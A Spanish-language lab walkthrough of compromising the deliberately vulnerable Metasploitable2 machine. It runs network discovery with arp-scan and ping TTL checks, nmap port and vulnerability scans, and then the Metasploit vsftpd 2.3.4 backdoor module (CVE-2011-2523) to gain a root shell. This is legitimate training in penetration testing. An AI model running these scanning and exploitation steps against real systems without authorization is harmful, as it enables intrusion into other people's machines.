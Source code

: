 **Vamos a usar la maquina virtual vulnerable Metasploitable2 se trata de una máquina que presenta multitud de vulnerabilidades, lo que nos permite practicar pentesting de una forma sencilla.**

![[Imagenes/image 16.png|image 16.png]]

  

En nuestra maquina Linux hacemos un **arp-scan para ver que equipos hay en nuestra red** local.

```Bash
sudo arp-scan -I eth0 --localnet
```

  

![[Imagenes/image 1 8.png|image 1 8.png]]

- En este caso tenemos dos IPs que que pueden ser nuestro maquina victima. V**amos a hacer una traza "ICMP Echo Request” mediante un Ping** y veremos su respuesta a la verificación si ese dispositivo está accesible en la red . Y **mediante el TTL de respuesta** intentar **saber de que dispositivos se tratan**.
    
    ```Bash
    ping -c 1 10.0.3.3
    ```
    
    ![[Imagenes/image 2 7.png|image 2 7.png]]
    

```Bash
ping -c 1 10.0.3.7
```

![[Imagenes/image 3 6.png|image 3 6.png]]

Como vemos en la **IP 10.0.3.3 el TTL es 255, a**lgunos **dispositivos de red** suelen usar TTL 255 como TTL inicial predeterminado.

**IP 10.0.3.7 el TTL es 64, a**lgunos **dispositivos Linux** usan 64 como TTL inicial predeterminado.

  

- Seguidamente después de localizar la IP de nuestra maquina victima . Vamos a hacer un **reconocimiento de puertos con NMAP**.
    
    ```Bash
    nmap -p- --open -sS -sC -sV -min-rate 2000 -n -vvv -Pn 10.0.3.7 -oN escaneo
    ```
    
    ![[Imagenes/image 4 5.png|image 4 5.png]]
    

Como vemos esta maquina tiene muchos puerto abiertos (Mirar Apéndice: Puertos y Servicios más Comunes).

Vamos a escoger por ejemplo el **puerto 21 que es donde corre el FTP**.

![[Imagenes/image 5 5.png|image 5 5.png]]

Probamos si tiene alguna vulnerabilidad.

```Bash
nmap --script "vuln" -p21 10.0.3.7
```

![[Imagenes/image 6 4.png|image 6 4.png]]

  

- Abrimos el Metasploit
    
    ![[Imagenes/image 7 3.png|image 7 3.png]]
    

Buscamos la vulnerabilidad a través del CVE

`search CVE-2011-2523`

![[Imagenes/image 8 3.png|image 8 3.png]]

Nos encontramos que no encuentra nada. Esto puede ser por varias razones, a veces dentro del exploit no viene con con el CVE y si viene con el nombre del servicio. Debemos entonces buscar de otras formas por ejemplo vamos a buscar por el servicio y versión que esta corriendo en el puerto.

![[Imagenes/image 9 3.png|image 9 3.png]]

`search vsFTP 2.3.4`

![[Imagenes/image 10 3.png|image 10 3.png]]

`use 0`

![[Imagenes/image 11 2.png|image 11 2.png]]

  

`show options`

![[Imagenes/image 12 2.png|image 12 2.png]]

Vamos a rellenar los parámetros obligatorios (si sabemos algún datos de los no obligatorios también debemos rellenarlo para mejorar la posibilidad de éxito).

`set RHOSTS 10.0.3.7`

`show options`

![[Imagenes/image 13 2.png|image 13 2.png]]

**NOTA:** El servicio **FTP** por defecto corre en el puerto 21 pero puede darse el caso que en alguna maquina el servicio corra en otro puerto por tanto **debemos verificar que el puerto RPORT sea el correcto**.

  

Ejecutamos el exploit: `run`

![[Imagenes/image 14 2.png|image 14 2.png]]

  

**NOTA:** Cuando hacemos una intrusión el puerto que se utiliza es un puerto al azar. El puerto 21 solo se utiliza para entrar.

Miramos que clase de usuario soy con el comando `whoami` y lanzamos una shell para movernos mejor.

`whoami`

`shell`

![[Imagenes/image 15 2.png|image 15 2.png]]

**Ya estaríamos dentro con privilegios de Root**.
